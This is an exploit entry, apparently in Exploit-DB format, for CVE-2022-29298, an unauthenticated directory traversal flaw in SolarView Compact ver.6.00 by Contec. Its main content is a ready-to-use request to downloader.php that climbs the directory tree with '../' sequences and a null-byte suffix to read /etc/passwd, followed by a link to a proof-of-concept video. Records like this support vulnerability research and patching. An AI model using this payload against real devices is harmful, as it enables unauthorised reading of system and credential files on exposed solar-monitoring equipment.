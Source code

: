 
# Exploit Title: SolarView Compact ver.6.00 - Directory traversal
# Date: 2022-05-15
# Exploit Author: Ahmed Alroky
# Author Company : AIactive
# Version: ver.6.00
# Vendor home page : https://www.contec.com/
# Authentication Required: No
# CVE : CVE-2022-29298

# Tested on: Windows


# Exploit

http://IP_ADDRESS/downloader.php?file=../../../../../../../../../../../../../etc/passwd%00.jpg

# Poc
https://drive.google.com/file/d/1-RHw9ekVidP8zc0xpbzBXnse2gSY1xbH/view
